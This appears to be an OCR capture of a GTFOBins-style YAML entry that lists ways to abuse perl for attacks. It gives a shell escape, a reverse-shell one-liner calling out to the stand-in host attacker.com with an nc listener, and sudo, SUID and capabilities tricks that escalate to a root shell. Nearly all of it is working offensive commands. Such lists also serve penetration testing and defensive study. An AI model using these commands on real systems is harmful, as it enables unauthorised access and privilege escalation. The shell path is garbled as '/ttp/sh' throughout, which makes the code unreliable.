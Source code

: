 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/ttp/sh";'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/ttp/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/ttp/sh";'
  sudo:
    - code: sudo perl -e 'exec "/ttp/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/ttp/sh";'
---
```

